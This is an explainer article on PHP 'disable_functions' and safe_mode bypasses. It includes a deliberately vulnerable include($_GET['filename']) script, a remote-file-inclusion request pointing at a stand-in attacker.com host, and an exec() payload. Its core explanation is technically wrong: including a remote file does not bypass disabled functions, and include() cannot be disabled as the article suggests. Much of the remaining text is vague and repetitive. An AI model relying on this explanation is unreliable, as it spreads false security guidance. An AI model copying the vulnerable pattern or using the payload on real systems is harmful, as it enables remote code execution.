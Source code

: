 # disable_functions bypass - PHP Perl Extension Safe_mode Bypass Exploit


# 👉 Overview

---

### 👀 What ?

> Disable_functions bypass and PHP Perl Extension Safe_mode Bypass Exploit is a cybersecurity issue where an attacker may exploit certain functions in PHP and Perl programming languages that are supposed to be restricted or disabled for security purposes. This exploit allows the attacker to bypass the usual safe_mode restrictions applied to PHP and Perl scripts, potentially causing significant security breaches.
> 

### 🧐 Why ?

> Understanding the disable_functions bypass and PHP Perl Extension Safe_mode Bypass Exploit is crucial because it represents a significant security vulnerability. If exploited, it allows the attacker to execute arbitrary code and override the security restrictions instituted in the system. Hence, it is essential for developers, system administrators, and even users to be aware of this issue and learn how to mitigate it.
> 

### ⛏️ How ?

> To mitigate this type of exploit, it is recommended to ensure that the PHP and Perl scripts are securely written and regularly audited. This includes disabling functions that can potentially be exploited and enforcing safe_mode restrictions. Moreover, regular updates of the PHP and Perl extensions should be conducted to patch any known vulnerabilities. Security tools can also be used to scan and detect any potential security breaches.
> 

### ⏳ When ?

> The issue of disable_functions bypass and PHP Perl Extension Safe_mode Bypass Exploit was first discovered and documented around the early 2000s with the rise of PHP and Perl as popular scripting languages for web development. Since then, various patches and security measures have been developed to address this issue.
> 

# ⚙️ Technical Explanations

---

The disable_functions bypass and PHP Perl Extension Safe_mode Bypass Exploit take advantage of a feature in the PHP and Perl programming languages that allows certain functions to be disabled for security reasons. When these functions are disabled, they are supposed to be inaccessible to scripts running on the server. However, this exploit allows an attacker to bypass these restrictions and call these functions anyway.

This exploit works through a combination of other functions or extensions that have their own execution capabilities. These are typically functions or extensions that are not intended to be used for executing code, but can be exploited to do so. For instance, an extension might allow a script to read a file from the server, and the attacker could use this to read a file that contains a function call to one of the disabled functions.

Once the safe_mode is bypassed, the attacker can execute arbitrary code, gaining the same privileges as the script that was exploited. This potentially allows the attacker to gain unauthorized access to sensitive data or even take control over the entire system.

Mitigation strategies for this exploit include ensuring that scripts are securely written and regularly audited, disabling any functions or extensions that could be exploited in this way, enforcing safe_mode restrictions, and keeping PHP and Perl up to date with the latest security patches. In addition, using security tools to scan for and detect potential exploits can help to catch any attempts to use this exploit before any damage is done.

Consider a scenario where an attacker wants to execute a disabled function, for instance `exec()`, a function often disabled in PHP for security reasons as it allows execution of external programs. The attacker might exploit a file-reading extension to read a PHP file that contains a call to `exec()`.

For instance, consider a PHP script that reads a file from the user:

```php
<?php
    $file = $_GET['filename'];
    include($file);
?>

```

This script could be exploited by passing a URL-encoded path to a malicious PHP script:

```
<http://target.com/vulnerable.php?filename=http%3A%2F%2Fattacker.com%2Fmalicious.php>

```

The `malicious.php` file could contain a call to the `exec()` function:

```php
<?php
    exec("arbitrary command");
?>

```

In this scenario, the `include()` function in the vulnerable script executes the `exec()` function contained in the malicious file, bypassing the `disable_functions` directive that would normally disable `exec()`.

To mitigate this, disable risky functions and extensions, audit your code regularly, enforce safe_mode restrictions, and keep PHP up-to-date. For instance, you could disable the `include()` function or restrict it to only include local files.

Additionally, utilize security tools to scan for and detect potential exploits. Always ensure that user-supplied input is properly sanitized and validated to prevent any malicious inputs. Use PHP's built-in functions such as `filter_var()` to sanitize user input.

